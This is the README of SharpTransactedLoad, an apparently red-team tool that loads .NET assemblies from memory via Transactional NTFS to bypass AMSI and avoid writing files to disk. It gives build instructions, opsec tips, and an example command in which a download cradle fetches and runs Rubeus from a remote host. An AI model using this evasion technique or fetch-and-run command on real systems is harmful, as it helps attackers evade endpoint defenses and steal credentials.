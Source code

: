 # SharpTransactedLoad
Load .net assemblies from memory while having them appear to be loaded from an on-disk location. Bypasses AMSI and expands the number of methods available for use in loading arbitrary assemblies while still avoiding dropping files to disk - some of which provide additional functionality over the traditional Assembly.Load call.  Currently built for .net 4.5, but should be compatible with other versions.

blog covering how the code works: https://blog.redxorblue.com/2021/05/assemblylie-using-transactional-ntfs.html

## Building and Using
**Note**: Testing was done with an x64 build, and as a result I would recommend building the project as x64. This still allows you to reflectively load both x86 and x64 assemblies from memory.  Rather, this setting just controls the architecture of the dll itself. Although "Any CPU" appears to function as intended as well, I have no clue if any weird behavior would be exhibited when attempting to inject into an x86 process etc.

The repo consists of two projects: SharpTransactedLoad (STL) and SharperCradle.  STL contains the actual code and compiles to a .dll that can then be used in other projects.  SharperCradle is a very simple proof of concept web download cradle showing how STL can be used in a portable tool to avoid having to call Assembly.Load(byte[]).  Both projects use Costura to merge all the necessary DLLs into a single portable package.

### SharpTransactedLoad
This project builds as a DLL, and as a result it isnt something that can be directly ran.  Rather, once this is built you can add it as a reference in another project and use it by calling "STL.TransactedAssembly.Load(byte[])"
STL uses EasyHook for hooking functions.  Within the project there are currently two required EasyHook DLLs:
  - **EasyHook.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/ folder.  This is a managed DLL and handles communications with the second (unmanaged) EasyHook dll.
  - **EasyHook64.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/Costura64 folder.  This is an unmanaged DLL, and handles the actual hooking functions.

Both of these DLL's were taken straight from EasyHook, but I definitely understand folks hesitancy to blindly trust pre-compiled code.  If you opt for the more opsec route, the original DLLs can be pulled directly from EasyHook and swapped for the ones currently in the project, just make sure names align.  Also, when browsing the project you may notice the Costura32 folder does not have anything in it.  If you opt to build as x86, I would drop the DLL in there.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Recommended) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - (Optional) Change deployment config to Debug or Release, as suits your needs.  Debug will print a bunch of output to the console when an assembly is loaded regarding the results of the different steps in the process, whereas release runs without printing anything.
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.

### SharperCradle
This serves as a PoC of how STL can be used in a project to avoid the standard Assembly.Load(byte[]) call.  Builds as a PE.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Required if you built STL as x64) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.
  
Once built, calling is super basic - just pass the uri of the resource you're attempting to load as the first arg, with any args to be passed to the loaded assembly behind that, for example:

```
SharperCradle.exe http://192.168.1.100/Rubeus.exe Triage
```

## Credits
  - [@FuzzySec]( https://twitter.com/FuzzySec): Prior work on hooking with EasyHook - specifically [Dendrobate]( https://github.com/FuzzySecurity/Dendrobate), from which I based this project off of.
  - [@Anthemtotheego]( https://twitter.com/anthemtotheego): Guidance on Transactional NTFS + [SharpCradle]( https://github.com/anthemtotheego/SharpCradle), which the SharperCradle PoC was based off of.
